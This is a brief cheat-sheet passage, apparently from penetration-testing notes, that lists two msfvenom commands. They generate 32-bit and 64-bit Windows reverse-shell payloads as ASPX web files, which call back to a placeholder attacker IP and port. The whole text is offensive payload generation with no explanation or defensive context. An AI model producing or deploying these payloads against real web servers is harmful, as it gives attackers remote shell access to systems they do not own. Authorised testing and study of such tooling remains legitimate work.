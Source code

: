 # ASPX

- x86 (32-bit) Payloads

`$ msfvenom -p windows/shell_reverse_tcp lhost=<IP> lport=<PORT> -f aspx -o shell-x86.aspx`

- x86_64 (64-bit) Payloads

`$ msfvenom -p windows/x64/shell_reverse_tcp lhost=<IP> lport=<PORT> -f aspx -o shell-x86-64.aspx`